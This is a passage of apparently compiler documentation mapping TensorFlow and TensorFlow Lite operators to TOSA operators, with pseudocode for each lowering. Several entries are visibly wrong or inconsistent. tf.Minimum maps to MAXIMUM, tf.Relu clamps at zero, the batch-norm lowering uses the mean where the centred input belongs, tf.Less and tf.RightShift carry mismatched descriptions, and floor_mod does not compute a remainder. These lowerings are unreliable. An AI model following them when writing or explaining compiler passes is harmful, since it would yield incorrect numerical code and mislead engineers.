%op5 = tosa.MUL(%op4, %scale)
%output = tosa.ADD(%op5, %offset)
```

### tf.FusedBatchNormV3

Batch normalization.

**TensorFlow Dialect**

```
%output = tf.FusedBatchNormV3(%x, %scale, %offset, %mean, %variance) {epsilon, data_format, is_training}
```

**TOSA Lowering**

```
assert(data_format == 'NHWC')
assert(is_training == false)

%epsilon_const = tosa.CONST() {value={epsilon}}

%op1 = tosa.SUB(%x, %bmean)
%op2 = tosa.ADD(%variance, %epsilon_const)
%op3 = tosa.RSQRT(%op2)
%op4 = tosa.MUL(%mean, %op3)
%op5 = tosa.MUL(%op4, %scale)
%output = tosa.ADD(%op5, %offset)
```

### tf.GatherNd

Gather slices from params into a Tensor with shape specified by indices.

**TensorFlow Dialect**

```
%output = tf.GatherNd(%params, %indices)
```

**TOSA Lowering**

```
%output = lower_gather_nd_op(%params, %indicies)
```

### tf.Gather

Gathers slices from params according to indicies.

**TensorFlow Dialect**

```
%output = tf.Gather(%params, %indices)
```

**TOSA Lowering**

```
%output = lower_gather_op(%params, %indicies, 0, 0)
```

### tf.GatherV2

Gathers slices from params axis according to indicies.

**TensorFlow Dialect**

```
%output = tf.GatherV2(%params, %indices, %axis) {batch_dims}
```

**TOSA Lowering**

```
%output = lower_gather_op(%params, %indicies, batch_dims, %axis.to_constant())
```

### tf.GreaterEqual

Returns the truth value of (x &gt;= y) element-wise with broadcasting.

**TensorFlow Dialect**

```
%output = tf.GreaterEqual(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.GREATER_EQUAL.

### tf.Greater

RetruReturns the truth value of (x &gt; y) element-wise with broadcasting.

**TensorFlow Dialect**

```
%output = tf.Greater(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.GREATER.

### tf.HashTableV2

No TOSA lowering defined.

### tf.IdentityN

Returns a list of tensors with the same shapes and contents as the input.

**TensorFlow Dialect**

```
%output = tf.IdentityN(%input)
```

**TOSA Lowering**

```
%output = tosa.IDENTITYN(%input)
```

### tf.Identity

Returns a tensor with the same shape and contents as the input.

**TensorFlow Dialect**

```
%output = tf.Identity(%input)
```

**TOSA Lowering**

```
%output = tosa.IDENTITY(%input)
```

### tf.If

No TOSA lowering defined.

### tf.Imag

No TOSA lowering defined.

### tf.InfeedDequeueTuple

No TOSA lowering defined.

### tf.Invert

This operator is trivially lowered to tosa.BITWISE_NOT.

### tf.InvertPermutation

No TOSA lowering defined.

### tf.IsFinite

No TOSA lowering defined.

### tf.IteratorGetNext

No TOSA lowering defined.

### tf.L2Loss

Training profile: TOSA lowering not yet defined.

### tf.LRN

No TOSA lowering defined.

### tf.LeakyRelu

Computes rectified linear: max(features, features \* alpha).

**TensorFlow Dialect**

```
%output = tf.LeakyRelu(%features) {alpha}
```

**TOSA Lowering**

```
%alpha_tensor = tosa.CONST() {value={alpha}}
%features_alpha = tosa.MUL(%features, %alpha_tensor)
%greater = tosa.GREATER(%features, %features_alpha)
%output = tosa.SELECT(%greater, %features, %features_alpha)
```

### tf.LeftShift

Computes the bitwise left-shift of x by y bits, element-wise.

**TensorFlow Dialect**

```
%output = tf.LeftShift(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.LOGICAL_LEFT_SHIFT.

### tf.LegacyCall

No TOSA lowering defined.

### tf.LessEqual

Returns the truth value of (x ⇐ y) element-wise with broadcasting.

**TensorFlow Dialect**

```
%output = tf.LessEqual(%x, %y)
```

**TOSA Lowering**

```
%output_greater = tosa.GREATER(%x, %y)
%output = tosa.LOGICAL_NOT(%output_greater)
```

### tf.Less

Returns the truth value of (x &lt; y) element-wise with broadcasting.

**TensorFlow Dialect**

```
%output = tf.LessEqual(%x, %y)
```

**TOSA Lowering**

```
%output_greater_equal = tosa.GREATER_EQUAL(%x, %y)
%output = tosa.LOGICAL_NOT(%output_greater_equal)
```

### tf.LiNSpace

No TOSA lowering defined.

### tf.Log1p

No TOSA lowering defined.

### tf.Log

This operator is trivially lowered to tosa.LOG.

### tf.LogSoftmax

Computes log softmax activations.

**TensorFlow Dialect**

```
%output = tf.LogSoftmax(%logits)
```

**TOSA Lowering**

```
%output = lower_log_softmax_op(%logits)
```

### tf.LogicalAnd

Returns the truth value of x AND y, element-wise.

**TensorFlow Dialect**

```
%output = tf.LogicalAnd(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.LOGICAL_AND.

### tf.LogicalNot

This operator is trivially lowered to tosa.LOGICAL_NOT.

### tf.LogicalOr

Returns the truth value of x OR y, element-wise.

**TensorFlow Dialect**

```
%output = tf.LogicalOr(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.LOGICAL_OR.

### tf.LookupTableFindV2

No TOSA lowering defined.

### tf.LookupTableInputV2

No TOSA lowering defined.

### tf.LookupTableSizeV2

No TOSA lowering defined.

### tf.MatMul

Multiply the matrix a by the matrix b

**TensorFlow Dialect**

```
%output = tf.MatMul(%a, %b)
```

**TOSA Lowering**

```
%output = tosa.MATMUL(%a, %b)
```

### tf.MatrixDiag

No TOSA lowering defined.

### tf.MatrixDiagV2

No TOSA lowering defined.

### tf.MatrixDiagV3

No TOSA lowering defined.

### tf.MatrixSetDiag

No TOSA lowering defined.

### tf.MatrixSetDiagV2

No TOSA lowering defined.

### tf.MatrixSetDiagV3

No TOSA lowering defined.

### tf.Max

Computes the maximum of elements across dimensions of a tensor.

**TensorFlow Dialect**

```
%output = tf.Max(%input, %reduction_indicies) {keep_dims}
```

**TOSA Lowering**

```
%output = lower_reduce_op<tosa.REDUCE_MAX>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tf.MaxPoolGrad

Training profile: TOSA lowering not yet defined.

### tf.MaxPool

Performs max pooling on the input.

**TensorFlow Dialect**

```
%output = tf.MaxPool(%input) {ksize, strides, padding, data_format}
```

**TOSA Lowering**

```
assert(data_format == "NHWC")

tosa_padding =
     get_padding_values_from_pad_type(%input, ksize, padding, data_format,
                                      FORMAT_OHWI, strides, {1, 1, 1, 1})
%output = tosa.MAX_POOL2D(%value) {ksize=ksize, strides=strides, padding=tosa_padding}
```

### tf.Maximum

This operator is trivially lowered to tosa.MAXIMUM.

### tf.Mean

Computes the mean of elements across dimensions of a tensor.

**TensorFlow Dialect**

```
%output = tf.Mean(%input, %reduction_indicies) {keep_dims}
```

**TOSA Lowering**

```
int32 num_elements_on_axis = 1
for (int32 axis : %reduction_indices) {
    num_elements_on_axis *= %input.shape[axis]
}
float32 div_scale = 1.0 / num_elements_on_axis

%cst_div_scale = tosa.CONST() {value={div_scale}}
%op1_rsum_in = lower_reduce_op<tosa.REDUCE_SUM>(%input, %output.shape, %reduction_indicies, keep_dims)
%op2_mul_op1 = tosa.MUL(%op1_rsum_in, %cst_div_scale)
```

### tf.Min

Computes the minimum of elements across dimensions of a tensor.

**TensorFlow Dialect**

```
%output = tf.Min(%input, %reduction_indicies) {keep_dims}
```

**TOSA Lowering**

```
%output = lower_reduce_op<tosa.REDUCE_MIN>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tf.Minimum

This operator is trivially lowered to tosa.MAXIMUM.

### tf.MirrorPad

No TOSA lowering defined.

### tf.MlirPassthroughOp

No TOSA lowering defined.

### tf.MulNoNan

No TOSA lowering defined.

### tf.Mul

Returns the product of x and y, element-wise.

**TensorFlow Dialect**

```
%output = tf.Mul(%x, %y)
```

**TOSA Lowering** This operator is trivially lowered to tosa.MUL.

### tf.Neg

This operator is trivially lowered to tosa.NEGATE.

### tf.NoOp

No TOSA lowering defined.

### tf.NonMaxSuppressionV4

No TOSA lowering defined.

### tf.NonMaxSuppressionV5

No TOSA lowering defined.

### tf.NotEqual

Returns the truth value of (x != y) element-wise with broadcasting.

**TensorFlow Dialect**

```
%output = tf.NotEqual(%x, %y)
```

**TOSA Lowering**

```
%equal = tosa.EQUAL(%x, %y)
%output = tosa.NOT(%equal)
```

### tf.OneHot

OneHot operator.

**TensorFlow Lite Dialect**

```
%output = tf.OneHot(%indices, %depth, %on_value, %off_value) {axis}
```

**TOSA Lowering**

```
%output = lower_one_hot_op(%indices, %depth, %on_value, %off_value, axis)
```

### tf.OutputEnqueueTuple

No TOSA lowering defined.

### tf.Pack

Packs a list of N rank-R tensors into one rank-(R+1) tensor.

**TensorFlow Dialect**

```
%output = tf.Pack(%values) {axis}
```

**TOSA Lowering**

```
%output = lower_pack_op(%values, axis)
```

### tf.Pad

This operator is trivially lowered to tosa.PAD.

### tf.PadV2

No TOSA lowering defined.

### tf.ParseExampleV2

No TOSA lowering defined.

### tf.PartitionedCall

No TOSA lowering defined.

### tf.Placeholder

Not seen in practice. No lowering needed.

### tf.PlaceholderWithDefault

Not seen in practice. No lowering needed.

### tf.Pow

This operator is trivially lowered to tosa.POW.

### tf.PreventGradient

Training profile: TOSA lowering not yet defined.

### tf.Prod

Computes the product of elements across dimensions of a tensor.

**TensorFlow Dialect**

```
%output = tf.Prod(%input, %reduction_indicies) {keep_dims}
```

**TOSA Lowering**

```
%output = lower_reduce_op<tosa.REDUCE_PRODUCT>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tf.QuantizeAndDequantize

No TOSA lowering defined.

### tf.QuantizeAndDequantizeV2

No TOSA lowering defined.

### tf.QuantizeAndDequantizeV3

No TOSA lowering defined.

### tf.RFFT

No TOSA lowering defined.

### tf.RandomShuffle

No TOSA lowering defined.

### tf.RandomStandardNormal

No TOSA lowering defined.

### tf.RandomUniform

No TOSA lowering defined.

### tf.Range

No TOSA lowering defined.

### tf.Rank

Returns the rank of the tensor.

**TensorFlow Dialect**

```
%output = tf.Rank(%input)
```

**TOSA Lowering**

```
%output = tosa.CONST() {value={%input.rank}}
```

### tf.ReadVariableOp

No TOSA lowering defined.

### tf.RealDiv

Returns x / y element-wise for real types.

**TensorFlow Dialect**

```
%output = tf.RealDiv(%x, %y)
```

**TOSA Lowering**

```
%recip = tosa.RECIPROCAL(%y)
%output = tosa.MUL(%x, %recip)
```

### tf.Real

No TOSA lowering defined.

### tf.Reciprocal

This operator is trivially lowered to tosa.RECIPROCAL.

### tf.Relu6

Computes rectified linear 6: min(max(features, 0), 6).

**TensorFlow Dialect**

```
%output = tf.Relu6(%features)
```

**TOSA Lowering**

```
%output = tosa.RELUN(%features) {max_val=6}
```

### tf.ReluGrad

Training profile: TOSA lowering not yet defined.

### tf.Relu

Computes rectified linear 6: max(features, 0)

**TensorFlow Dialect**

```
%output = tf.Relu(%features)
```

**TOSA Lowering**

```
%output = tosa.RELUN(%features) {max_val=0}
```

### tf.Reshape

Reshapes a tensor.

**TensorFlow Dialect**

```
%output = tf.Reshape(%tensor, %shape)
```

**TOSA Lowering**

```
%output = tosa.RESHAPE(%tensor) {new_shape=%shape.as_constant}
```

### tf.ResizeBilinear

Resizes images to size using bilinear interpolation.

**TensorFlow Dialect**

```
%output = tf.ResizeBilinear(%images, %size) {align_corners, half_pixel_centers}
```

inferred from output shape. **TOSA Lowering**

```
%output = lower_resize_op(%images, %size, float, "BILINEAR")
```

### tf.ResizeNearestNeighbor

Resizes images to size using nearest neighbor interpolation.

**TensorFlow Dialect**

```
%output = tf.ResizeNearestNeighbor(%images, %size) {align_corners, half_pixel_centers}
```

inferred from output shape. **TOSA Lowering**

```
%output = lower_resize_op(%images, %size, %output, float, "NEAREST_NEIGHBOR")
```

### tf.ResourceApplyAdam

Training profile: TOSA lowering not yet defined.

### tf.ResourceApplyGradientDescent

Training profile: TOSA lowering not yet defined.

### tf.ResourceApplyKerasMomentum

Training profile: TOSA lowering not yet defined.

### tf.ResourceGather

Training profile: TOSA lowering not yet defined.

### tf.ResourceScatterUpdate

Training profile: TOSA lowering not yet defined.

### tf.ReverseSequence

No TOSA lowering defined.

### tf.ReverseV2

Reverses specific dimensions of a tensor.

**TensorFlow Dialect**

```
%output = tf.ReverseV2(%tensor, %axis)
```

**TOSA Lowering**

```
%output = lower_reversev2_op(%tensor, %axis)
```

### tf.RightShift

Computes the bitwise left-shift of x by y bits, element-wise.

**TensorFlow Dialect**

```
%output = tf.LeftShift(%x, %y)
```

**TOSA Lowering**

```
if (is_unsigned(%x.dtype)) {
  %output = tosa.LOGICAL_RIGHT_SHIFT(%x, %y)
} else {
  %output = tosa.ARITHMETIC_RIGHT_SHIFT(%x, %y)
}
```

### tf.Round

Rounds the values of a tensor to the nearest integer, element-wise.

**TensorFlow Dialect**

```
%output = tf.Round(%x)
```

**TOSA Lowering**

```
%output = lower_round_op(%x)
```

### tf.RsqrtGrad

Training profile: TOSA lowering not yet defined.

### tf.Rsqrt

This operator is trivially lowered to tosa.RSQRT.

### tf.SegmentMax

No TOSA lowering defined.

### tf.SegmentMean

No TOSA lowering defined.

### tf.SegmentMin

No TOSA lowering defined.

### tf.SegmentProd

No TOSA lowering defined.

### tf.SegmentSum

No TOSA lowering defined.

### tf.Select

No TOSA lowering defined.

### tf.SelectV2

Selects elements from t or e depending on condition.

**TensorFlow Dialect**

```
%output = tf.SelectV2(%condition, %t, %e)
```

**TOSA Lowering**

```
%output = lower_selectv2_op(%condition, %t, %e, %output.shape)
```

### tf.ShapeN

No TOSA lowering defined.

### tf.Shape

Returns the shape of a tensor.

**TensorFlow Dialect**

```
%output = tf.Shape(%input)
```

**TOSA Lowering**

```
%output = lower_shape_op(%input)
```

### tf.Sigmoid

This operator is trivially lowered to tosa.SIGMOID.

### tf.Sign

No TOSA lowering defined.

### tf.Sin

No TOSA lowering defined.

### tf.Size

No TOSA lowering defined.

### tf.Slice

Returns a slice from input.

**TensorFlow Dialect**

```
%output = tf.Slice(%input, %begin, %size)
```

**TOSA Lowering**

```
vector <size_t> output_size
try {
  output_size = %size.as_constant()
} except(ConversionFailed) {
  output_size = %output.shape
}

%output = tosa.SLICE(%input) {start=begin, size=output_size}
```

### tf.Snapshot

No TOSA lowering defined.

### tf.SoftmaxCrossEntropyWithLogits

Training profile: TOSA lowering not yet defined.

### tf.Softmax

Computes softmax activations

**TensorFlow Dialect**

```
%output = tf.Softmax(%logits)
```

**TOSA Lowering**

```
%op1 = tosa.EXP(%logits)
%op2 = tosa.REDUCE_SUM(op1) {reduce_axis=(%logits.rank - 1)}
%op3 = tosa.RECIPROCAL(%op2)
%output = tosa.MUL(%op1, %op3)
```

### tf.Softplus

No TOSA lowering defined.

### tf.SpaceToBatchND

SpaceToBatch for N-D tensors of type T.

**TensorFlow Dialect**

```
%output = tf.SpaceToBatchND(%input, %block_shape, %paddings)
```

**TOSA Lowering**

```
%output = lower_space_to_batch_nd_op(%input, %block_shape, %paddings)
```

### tf.SpaceToDepth

SpaceToDepth for tensors of type T.

**TensorFlow Dialect**

```
%output = tf.SpaceToDepth(%input) {block_size, data_format}
```

**TOSA Lowering**

```
%output = lower_space_to_depth_op(%input, block_size, data_format)
```

### tf.SparseMatMul

No TOSA lowering defined.

### tf.SparseSoftmaxCrossEntropyWithLogits

No TOSA lowering defined.

### tf.SparseToDense

No TOSA lowering defined.

### tf.Split

Splits a tensor into num_split tensors along one dimension

**TensorFlow Dialect**

```
%output = tf.Split(%split_dim, %value) {num_split}
```

**TOSA Lowering**

```
%output = lower_split_op(%value, %split_dim.as_constant(), num_split)
```

### tf.SplitV

Splits a tensor into num_split tensors along one dimension

**TensorFlow Dialect**

```
%output = tf.SplitV(%value, %size_splits, %split_dim) {num_split}
```

**TOSA Lowering**

```
%output = lower_splitv_op(%value, %size_splits.as_constant(), %split_dim.as_constant())
```

### tf.Sqrt

No TOSA lowering defined.

### tf.Square

Computes the square of x, element-wise.

**TensorFlow Dialect**

```
%output = tf.Square(%x)
```

**TOSA Lowering**

```
%output = tosa.MUL(%x, %x)
```

### tf.SquareDifference

Computes (x-y)\*(x-y) element-wise

**TensorFlow Dialect**

```
%output = tf.SquareDifference(%x, %y)
```

**TOSA Lowering**

```
%diff = tosa.SUB(%x, %y)
%output = tosa.MUL(%diff, %diff)
```

### tf.Squeeze

Removes dimensions of size 1 from the shape of a tensor.

**TensorFlow Dialect**

```
%output = tf.Squeeze(%input) {squeeze_dims}
```

**TOSA Lowering**

```
%output = lower_squeeze_op(%input, squeeze_dims)
```

### tf.StatefulPartitionedCall

No TOSA lowering defined.

### tf.StopGradient

Training profile: TOSA lowering not yet defined.

### tf.StridedSliceGrad

Training profile: TOSA lowering not yet defined.

### tf.StridedSlice

Return a strided slice from input.

**TensorFlow Dialect**

```
%output = tf.StridedSlice(%input, %begin, %end, %strides) {begin_mask, end_mask, ellipsis_mask, new_axis_mask, shrink_axis_mask}
```

**TOSA Lowering**

```
%output = lower_strided_slice_op(%input, %begin, %end, %strides, begin_mask, end_mask, ellipsis_mask, new_axis_mask, shrink_axis_mask)
```

### tf.Sub

This operator is trivially lowered to tosa.SUB.

### tf.Sum

Computes the sum of elements across dimensions of a tensor.

**TensorFlow Dialect**

```
%output = tf.Sum(%input, %reduction_indicies) {keep_dims}
```

**TOSA Lowering**

```
%output = lower_reduce_op<tosa.REDUCE_SUM>(%input, %output.shape, %reduction_indicies, keep_dims)
```

### tf.TPUCompilationResult

No TOSA lowering defined.

### tf.TPUCopyWithLayout

No TOSA lowering defined.

### tf.TPUExecuteAndUpdateVariables

No TOSA lowering defined.

### tf.TPUExecute

No TOSA lowering defined.

### tf.TPUGetLayout

No TOSA lowering defined.

### tf.TPUReplicateMetadata

No TOSA lowering defined.

### tf.TPUReplicatedInput

No TOSA lowering defined.

### tf.TPUReplicatedOutput

No TOSA lowering defined.

### tf.TPUReshardVariables

No TOSA lowering defined.

### tf.TanhGrad

Training profile: TOSA lowering not yet defined.

### tf.Tanh

This operator is trivially lowered to tosa.TANH.

### tf.TensorListFromTensor

No TOSA lowering defined.

### tf.TensorListGetItem

No TOSA lowering defined.

### tf.TensorListLength

No TOSA lowering defined.

### tf.TensorListPushBack

No TOSA lowering defined.

### tf.TensorListReserve

No TOSA lowering defined.

### tf.TensorListResize

No TOSA lowering defined.

### tf.TensorListSetItem

No TOSA lowering defined.

### tf.TensorListStack

No TOSA lowering defined.

### tf.TensorScatterUpdate

No TOSA lowering defined.

### tf.Tile

Constructs a tensor by tiling a given tensor.

**TensorFlow Dialect**

```
%output = tf.Tile(%input, %multiples)
```

**TOSA Lowering**

```
%output = tosa.TILE(%input) {multiples=%multiples.as_constant()}
```

### tf.ToBool

No TOSA lowering defined.

### tf.TopKV2

No TOSA lowering defined.

### tf.Transpose

Shuffle dimensions of x according to a permutation.

**TensorFlow Dialect**

```
%output = tf.Transpose(%x, %perm)
```

**TOSA Lowering**

```
%output = tosa.TRANSPOSE(%x) {perm=%perm.as_constant()}
```

### tf.TruncateDiv

No TOSA lowering defined.

### tf.Unique

No TOSA lowering defined.

### tf.Unpack

Unpacks a given dimension of a rank-R tensor into num rank-(R-1) tensors.

**TensorFlow Dialect**

```
%output = tf.Unpack(%value) {axis, num}
```

**TOSA Lowering**

```
%output = lower_unpack_op(%value, axis, num)
```

### tf.UnsortedSegmentMax

No TOSA lowering defined.

### tf.UnsortedSegmentMin

No TOSA lowering defined. === tf.UnsortedSegmentProd

No TOSA lowering defined. === tf.UnsortedSegmentSum

No TOSA lowering defined.

### tf.VarHandle

No TOSA lowering defined.

### tf.VariableShape

No TOSA lowering defined.

### tf.Where

No TOSA lowering defined.

### tf.While

No TOSA lowering defined.

### tf.Xdivy

No TOSA lowering defined.

### tf.XlaDynamicUpdateSlice

No TOSA lowering defined.

### tf.XlaSharding

No TOSA lowering defined.

### tf.ZerosLike

Returns a tensor of zeros with the same shape and type as x.

**TensorFlow Dialect**

```
%output = tf.ZerosLike(%x)
```

**TOSA Lowering**

```
%output = tosa.CONST() {value={0} * %x.num_elements}
```

## TensorFlow Lite MLIR Dialect Legalization (legalize_tfl)

### tfl.abs

This operator is trivially lowered to tosa.ABS

### tfl.add_n

add_n operator.

**TensorFlow Lite Dialect**

```
%sum = tfl.add_n(%inputs)
```

**TOSA Lowering**

```
%output = tosa.ADD(%inputs:0, %inputs:1)
for (int32 i = 2 i < %inputs.size i++) {
    %output = tosa.ADD(%inputs:i, %output)
}
```

### tfl.add

Element-wise addition operation.

**TensorFlow Lite Dialect**

```
%output = tfl.add(%lhs, %rhs)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Legalization:

```
%result = tosa.ADD(%lhs, %rhs)
```

If input/output tensors are all quantized typed,

Prepare:

```
float64 max_scale_2x = 2.0 * max(%lhs.scale, %rhs.scale)
float64 lhs_scale = float64(1 << input_shift) * %lhs.scale / max_scale_2x
float64 rhs_scale = float64(1 << input_shift) * %rhs.scale / max_scale_2x
float64 output_scale = max_scale_2x / (%output.scale * float64(1 << input_shift))

```

Legalization:

```
%op1_rescale_lhs = tosa.RESCALE(%lhs) {scale=lhs_scale, input_zp=%lhs.zp, output_zp=0} // %lhs.dtype->i32
%op2_rescale_rhs = tosa.RESCALE(%rhs) {scale=rhs_scale, input_zp=%rhs.zp, output_zp=0} // %rhs.dtype->i32
%op3_add_op1_op2 = tosa.ADD(%op1_rescale_lhs, %op2_rescale_rhs)
%op4_rescale_op3 = tosa.RESCALE(%op3_add_op1_op2) {scale=output_scale} // i32->%output.dtype
```

### tfl.arg_max

ArgMax operator.

**TensorFlow Lite Dialect**

```
%output = tfl.arg_max(%input, %dim)
```

**TOSA Lowering**

```
%result = tosa.ARGMAX(%input) {axis=positive_axis(%dim_const.as_constant(), %input.rank)}
```

### tfl.arg_min

No TOSA lowering defined.

### tfl.average_pool_2d

Average_pool_2d operator.

**TensorFlow Lite Dialect**

```
%output = tfl.average_pool_2d(%input) {filter_height, filter_width, padding, stride_h, stride_w, fused_activation_function}
```

**TOSA Lowering**

Prepare:

```
tosa_padding =
     get_padding_values_from_pad_type(padding, NHWC, 1,
                                      %input.type, tensor<{filter_height, filter_width}, tosa.int32>,
                                      {1, stride_h, stride_w, 1}, {1, 1, 1, 1})
```

If input/output tensors are all non-quantized typed,

Legalization:

```
%avgpool2d = tosa.AVG_POOL2D(%input) {kernel={filter_height, filter_width}, stride={stride_h, stride_w}, padding=tosa_padding}
if(fused_activation != NONE) {
    %result = convert_fused_activation(%avgpool2d, fused_activation)
}
else {
    %result = %avgpool2d
}
```

If input/output tensors are all quantized typed,

Legalization:

```
%avgpool2d = tosa.AVG_POOL2D(%input) {kernel={filter_height, filter_width}, stride={stride_h, stride_w}, padding=tosa_padding, quantization_info={input_zp=%input.zp, output_zp=%output.zp}}
if(fused_activation != NONE) {
    %result = convert_fused_activation(%avgpool2d, fused_activation)
}
else {
    %result = %avgpool2d
}
```

### tfl.basic_lstm

No TOSA lowering defined.

### tfl.batch_to_space_nd

BatchToSpaceNd operator.

**TensorFlow Lite Dialect**

```
%output = tfl.batch_to_space_nd(%input, %block_shape, %indices)
```

**TOSA Lowering**

```
%result = convert_batch_to_space_nd_op(%input, %block_shape, %indices)
```

### tfl.cast

This operator is trivially lowered to tosa.CAST

### tfl.ceil

Ceil operator.

**TensorFlow Lite Dialect**

```
%y = tfl.ceil(%x)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

```
%result = tosa.CEIL(%x)
```

### tfl.concatenation

Concatenation operator.

**TensorFlow Lite Dialect**

```
%output = tfl.concatenation(%values) {axis}
```

**TOSA Lowering**

```
%result = lower_concatv2_op(%values, axis)
```

### tfl.pseudo_const

This operator is trivially lowered to tosa.CONST

### tfl.conv_2d

Convolution operator.

**TensorFlow Lite Dialect**

```
%output = tfl.conv_2d(%input, %filter, %bias) {dilation_h_factor, dilation_w_factor, fused_activation_function, padding, stride_h, stride_w}
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Prepare:

```
tosa_padding =
     get_padding_values_from_pad_type(padding, NHWC, 1,
                                      %input.type, %filter.type,
                                      {1, stride_h, stride_w, 1}, {1, dilation_h_factor, dilation_w_factor, 1})
```

Legalization:

```
%conv2d = tosa.CONV2D(%input, %filter, %bias) {padding=tosa_padding, stride={stride_h, stride_w}, dilation={dilation_h_factor, dilation_w_factor}}
if(fused_activation != NONE) {
    %result = convert_fused_activation(%conv2d, fused_activation_function)
}
else {
    %result = %conv2d
}
```

If input/output tensors are all quantized typed,

Prepare:

```
float64 output_rescale_scale = (%input.scale * %filter.scale) / %output.scale

tosa_padding =
     get_padding_values_from_pad_type(padding, NHWC, 1,
                                      %input.type, %filter.type,
                                      {1, stride_h, stride_w, 1}, {1, dilation_h_factor, dilation_w_factor, 1})
```

Legalization:

```
%conv2d = tosa.CONV2D(%input, %filter, %bias) {padding=tosa_padding, stride={stride_h, stride_w}, dilation={dilation_h_factor, dilation_w_factor}, quantization_info={input_zp=%input.zp, weight_zp=%filter.zp}}
%rescale = tosa.RESCALE(%conv2d) {scale=output_rescale_scale, input_zp=0, output_zp=%output.zp} // %conv2d.dtype->%output.dtype
if(fused_activation != NONE) {
    %result = convert_fused_activation(%rescale, fused_activation_function)
}
else {
    %result = %rescale
}
```

### tfl.convolution_2d_transpose_bias

No TOSA lowering defined.

### tfl.cos

No TOSA lowering defined.

### tfl.densify

No TOSA lowering defined.

### tfl.depth_to_space

DepthToSpace operator.

**TensorFlow Dialect**

```
%output = tfl.depth_to_space(%input) {block_size}
```

**TOSA Lowering**

```
%output = lower_depth_to_space_op(%input, block_size, "NHWC")
```

### tfl.depthwise_conv_2d

Depthwise-separable convolution operator.

**TensorFlow Lite Dialect**

```
%output = tfl.depthwise_conv_2d(%input, %filter, %bias) {dilation_h_factor, dilation_w_factor, fused_activation_function, padding, stride_h, stride_w, depth_multiplier}
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

Prepare:

```
tosa_padding =
     get_padding_values_from_pad_type(padding, NHWC, 1,
                                      %input.type, %filter.type,
                                      {1, stride_h, stride_w, 1}, {1, dilation_h_factor, dilation_w_factor, 1})
```

Legalization:

```
%depthwise_conv2d = tosa.DEPTHWISE_CONV2D(%input, %filter, %bias) {padding=tosa_padding, stride={stride_h, stride_w}, dilation={dilation_h_factor, dilation_w_factor}}
if(fused_activation != NONE) {
    %result = convert_fused_activation(%depthwise_conv2d, fused_activation_function)
}
else {
    %result = %depthwise_conv2d
}
```

If input/output tensors are all quantized typed,

Prepare:

```
float64 output_rescale_scale = (%input.scale * %filter.scale) / %output.scale

tosa_padding =
     get_padding_values_from_pad_type(padding, NHWC, 1,
                                      %input.type, %filter.type,
                                      {1, stride_h, stride_w, 1}, {1, dilation_h_factor, dilation_w_factor, 1})
```

Legalization:

```
%depthwise_conv2d = tosa.DEPTHWISE_CONV2D(%input, %filter, %bias) {padding=tosa_padding, stride={stride_h, stride_w}, dilation={dilation_h_factor, dilation_w_factor}, quantization_info={input_zp=%input.zp, weight_zp=%filter.zp}}
%rescale = tosa.RESCALE(%conv2d) {scale=output_rescale_scale, input_zp=0, output_zp=%output.zp} // %depthwise_conv2d.dtype->%output.dtype
if(fused_activation != NONE) {
    %result = convert_fused_activation(%rescale, fused_activation_function)
}
else {
    %result = %rescale
}
```

### tfl.dequantize

Dequantize operator.

**TensorFlow Lite Dialect**

```
%output = tfl.dequantize(%input)
```

**TOSA Lowering**

```
%result = lower_dequantize_op(%input, %input.scale, %input.zp)
```

### tfl.div

Division operator.

**TensorFlow Lite Dialect**

```
%output = tfl.div(%lhs, %rhs)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

```
%rcp = tosa.RECIPROCAL(%rhs)
%mul = tosa.MUL(%lhs, %rcp)
```

### tfl.elu

Exponential Linear Unit operator.

**TensorFlow Lite Dialect**

```
%y = tfl.elu(%x)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

```
%rcp = lower_elu_op(%x)
```

### tfl.embedding_lookup

Embedding lookup operator.

**TensorFlow Lite Dialect**

```
%output = tfl.embedding_lookup(%lookup, %value)
```

### tfl.equal

This operator is trivially lowered to tosa.EQUAL

### tfl.exp

Natural exponentiation operator.

**TensorFlow Lite Dialect**

```
%y = tfl.exp(%x)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

```
%result = tosa.EXP(%x)
```

### tfl.expand_dims

Inserts a dimension of 1 into a tensor’s shape.

**TensorFlow Lite Dialect**

```
%output = tfl.expand_dims(%input, %dim)
```

**TOSA Lowering**

```
%result = lower_expand_dims(%input, %dim.as_constant())
```

### tfl.external_const

No TOSA lowering defined.

### tfl.fake_quant

FakeQuant operator

**TensorFlow Lite Dialect**

```
%output = tfl.fake_quant(%input) {min, max, num_bits, narrow_range}
```

**TOSA Lowering**

```
%result = convert_fake_quant_op(%input, min, max, num_bits, narrow_range)
```

### tfl.fill

Fill the tensor with given value.

**TensorFlow Lite Dialect**

```
%res = tfl.fill(%dims, %value)
```

**TOSA Lowering**

Prepare:

```
total_size = 1
dim_vec = %dim.as_constant()
for(int32 i = 0 i < dim_vec.size() i++) {
    total_size *= dim_vec[i]
}
filled_val = %value.as_constant()[0]
output_type = tensor<dim_vec, filled_val.dtype>
```

Legalization:

```
%result = tosa.CONST() {value={filled_val} * total_size}
```

### tfl.floor_div

Floor div operator.

**TensorFlow Lite Dialect**

```
%output = tfl.floor_div(%lhs, %rhs)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

```
%recip = tosa.RECIPROCAL(%rhs)
%mul = tosa.MUL(%lhs, %recip)
%result = tosa.FLOOR(%mul)
```

### tfl.floor_mod

Division remainder.

**TensorFlow Lite Dialect**

```
%output = tfl.floor_mod(%lhs, %rhs)
```

**TOSA Lowering**

If input/output tensors are all non-quantized typed,

```
%recip = tosa.RECIPROCAL(%rhs)
%mul = tosa.MUL(%lhs, %recip)
%floor = tosa.FLOOR(%mul)
%result = tosa.SUB(%mul, %floor)
```

### tfl.floor

This operator is trivially lowered to tosa.FLOOR

### tfl.fully_connected

Fully connected op.

**TensorFlow Lite Dialect**

```
%output = tfl.fully_connected(%input, %filter, %bias) {fused_activation_function}
```

**TOSA Lowering**

